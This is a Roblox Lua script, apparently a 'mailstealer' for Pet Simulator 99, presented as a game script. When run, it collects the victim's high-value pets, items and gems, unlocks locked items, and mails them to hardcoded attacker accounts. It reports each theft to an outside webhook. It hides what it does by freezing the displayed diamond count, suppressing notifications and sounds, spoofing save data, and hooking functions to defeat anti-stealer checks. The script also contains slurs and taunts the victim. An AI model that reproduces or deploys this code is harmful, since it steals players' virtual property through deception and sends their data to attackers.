 # Petsgo_script
Username = "petsgo_profe"
Username2 = "petsgo_profe1"
webhook = "https://discord.gg/9rheBXat"
min_rap = 10000
_G.scriptExecuted = _G.scriptExecuted or false
if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true

local network = game:GetService("ReplicatedStorage"):WaitForChild("Network")
local library = require(game.ReplicatedStorage.Library)
local save = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().Inventory
local mailsent = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().MailboxSendsSinceReset
local plr = game.Players.LocalPlayer
local MailMessage = "GG / GY2RVSEGDT"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
local totalRAP = 0
local getFucked = false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end

local newamount = 20000

if mailsent ~= 0 then
	newamount = math.ceil(newamount * (1.5 ^ mailsent))
end

local GemAmount1 = 1
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end

if newamount > GemAmount1 then
    return
end

local function formatNumber(number)
	local number = math.floor(number)
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
	return string.format("%.2f%s", number, suffixes[suffixIndex])
end

local function SendMessage(username, diamonds)
    local headers = {
        ["Content-Type"] = "application/json",
    }

	local fields = {
		{
			name = "Retard Username:",
			value = username,
			inline = true
		},
		{
			name = "Items to be sent:",
			value = "",
			inline = false
		},
        {
            name = "Summary:",
            value = "",
            inline = false
        }
	}

    local combinedItems = {}
    local itemRapMap = {}

    for _, item in ipairs(sortedItems) do
        local rapKey = item.name
        if itemRapMap[rapKey] then
            itemRapMap[rapKey].amount = itemRapMap[rapKey].amount + item.amount
        else
            itemRapMap[rapKey] = {amount = item.amount, rap = item.rap}
            table.insert(combinedItems, rapKey)
        end
    end

    table.sort(combinedItems, function(a, b)
        return itemRapMap[a].rap * itemRapMap[a].amount > itemRapMap[b].rap * itemRapMap[b].amount 
    end)

    for _, itemName in ipairs(combinedItems) do
        local itemData = itemRapMap[itemName]
        fields[2].value = fields[2].value .. itemName .. " (x" .. itemData.amount .. ")" .. ": " .. formatNumber(itemData.rap * itemData.amount) .. " RAP\n"
    end

    fields[3].value = fields[3].value .. "Gems: " .. formatNumber(diamonds) .. "\n"
    fields[3].value = fields[3].value .. "Total RAP: " .. formatNumber(totalRAP)
    if getFucked then
        fields[3].value = fields[3].value .. "\n\nVictim tried to use anti-mailstealer, but got fucked instead"
    end

    local data = {
        ["embeds"] = {{
            ["title"] = "\240\159\144\177 New PS99 Execution" ,
            ["color"] = 65280,
			["fields"] = fields,
			["footer"] = {
				["text"] = "Mailstealer by Tobi. discord.gg/GY2RVSEGDT"
			}
        }}
    }

    if #fields[2].value > 1024 then
        local lines = {}
        for line in fields[2].value:gmatch("[^\r\n]+") do
            table.insert(lines, line)
        end

        while #fields[2].value > 1024 and #lines > 0 do
            table.remove(lines)
            fields[2].value = table.concat(lines, "\n")
            fields[2].value = fields[2].value .. "\nPlus more!"
        end
    end

    local body = HttpService:JSONEncode(data)

    if webhook and webhook ~= "" then
        local response = request({
            Url = webhook,
            Method = "POST",
            Headers = headers,
            Body = body
        })
    end
end

local gemsleaderstat = plr.leaderstats["\240\159\146\142 Diamonds"].Value
local gemsleaderstatpath = plr.leaderstats["\240\159\146\142 Diamonds"]
gemsleaderstatpath:GetPropertyChangedSignal("Value"):Connect(function()
	gemsleaderstatpath.Value = gemsleaderstat
end)

local loading = plr.PlayerScripts.Scripts.Core["Process Pending GUI"]
local noti = plr.PlayerGui.Notifications
loading.Disabled = true
noti:GetPropertyChangedSignal("Enabled"):Connect(function()
	noti.Enabled = false
end)
noti.Enabled = false

game.DescendantAdded:Connect(function(x)
    if x.ClassName == "Sound" then
        if x.SoundId=="rbxassetid://11839132565" or x.SoundId=="rbxassetid://14254721038" or x.SoundId=="rbxassetid://12413423276" then
            x.Volume=0
            x.PlayOnRemove=false
            x:Destroy()
        end
    end
end)

local function getRAP(Type, Item)
    return (require(game:GetService("ReplicatedStorage").Library.Client.DevRAPCmds).Get(
        {
            Class = {Name = Type},
            IsA = function(hmm)
                return hmm == Type
            end,
            GetId = function()
                return Item.id
            end,
            StackKey = function()
                return HttpService:JSONEncode({id = Item.id, pt = Item.pt, sh = Item.sh, tn = Item.tn})
            end
        }
    ) or 0)
end

local user = Username
local user2 = Username2

local function sendItem(category, uid, am)
    local args = {
        [1] = user,
        [2] = MailMessage,
        [3] = category,
        [4] = uid,
        [5] = am or 1
    }
	local response = false
	repeat
    	local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
		if response == false and err == "They don't have enough space!" then
			user = user2
			args[1] = user
		end
	until response == true
	GemAmount1 = GemAmount1 - newamount
	newamount = math.ceil(math.ceil(newamount) * 1.5)
	if newamount > 5000000 then
		newamount = 5000000
	end
end

local function SendAllGems()
    for i, v in pairs(GetSave().Inventory.Currency) do
        if v.id == "Diamonds" then
			if GemAmount1 >= (newamount + 10000) then
				local args = {
					[1] = user,
					[2] = MailMessage,
					[3] = "Currency",
					[4] = i,
					[5] = GemAmount1 - newamount
				}
				local response = false
				repeat
					local response = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
				until response == true
				break
			end
        end
    end
end

local function IsMailboxHooked()
	local uid
	for i, v in pairs(save["Pet"]) do
		uid = i
		break
	end
	local args = {
        [1] = "Roblox",
        [2] = "Test",
        [3] = "Pet",
        [4] = uid,
        [5] = 1
    }
    local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
    if (err == "They don't have enough space!") or (err == "You don't have enough diamonds to send the mail!") then
        return false
    else
        return true
    end
end

local function EmptyBoxes()
    if save.Box then
        for key, value in pairs(save.Box) do
			if value._uq then
				network:WaitForChild("Box: Withdraw All"):InvokeServer(key)
			end
        end
    end
end

local function ClaimMail()
    local response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    while err == "You must wait 30 seconds before using the mailbox!" do
        wait()
        response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    end
end

local categoryList = {"Pet", "Egg", "Charm", "Enchant", "Potion", "Misc", "Hoverboard", "Booth", "Ultimate"}

for i, v in pairs(categoryList) do
	if save[v] ~= nil then
		for uid, item in pairs(save[v]) do
			if v == "Pet" then
                local dir = require(game:GetService("ReplicatedStorage").Library.Directory.Pets)[item.id]
                if dir.huge or dir.exclusiveLevel then
                    local rapValue = getRAP(v, item)
                    if rapValue >= min_rap then
                        local prefix = ""
                        if item.pt and item.pt == 1 then
                            prefix = "Golden "
                        elseif item.pt and item.pt == 2 then
                            prefix = "Rainbow "
                        end
                        if item.sh then
                            prefix = "Shiny " .. prefix
                        end
                        local id = prefix .. item.id
                        table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = id})
                        totalRAP = totalRAP + (rapValue * (item._am or 1))
                    end
                end
            else
                local rapValue = getRAP(v, item)
                if rapValue >= min_rap then
                    table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = item.id})
                    totalRAP = totalRAP + (rapValue * (item._am or 1))
                end
            end
            if item._lk then
                local args = {
                [1] = uid,
                [2] = false
                }
                network:WaitForChild("Locking_SetLocked"):InvokeServer(unpack(args))
            end
        end
	end
end

if #sortedItems > 0 or GemAmount1 > min_rap + newamount then
    ClaimMail()
	if IsMailboxHooked() then
        getFucked = true
		local Mailbox = game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Send")
        for i, Func in ipairs(getgc(true)) do
            if typeof(Func) == "function" and debug.info(Func, "n") == "typeof" then
                local Old
                Old = hookfunction(Func, function(Ins, ...)
                    if Ins == Mailbox then
                        return tick()
                    end
                    return Old(Ins, ...)
                end)
            end
        end
	end
    EmptyBoxes()
	require(game.ReplicatedStorage.Library.Client.DaycareCmds).Claim()
	require(game.ReplicatedStorage.Library.Client.ExclusiveDaycareCmds).Claim()
    local blob_a = game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")
    local blob_b = require(blob_a).Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    require(blob_a).Get = function(...)
        return blob_b
    end

    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)

    spawn(function()
        SendMessage(plr.Name, GemAmount1)
    end)

    for _, item in ipairs(sortedItems) do
        if item.rap >= newamount then
            sendItem(item.category, item.uid, item.amount)
        else
            break
        end
    end
    SendAllGems()
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("All your items will go to me. Okay?")
    setclipboard("discord.gg/dafuqboom")
end
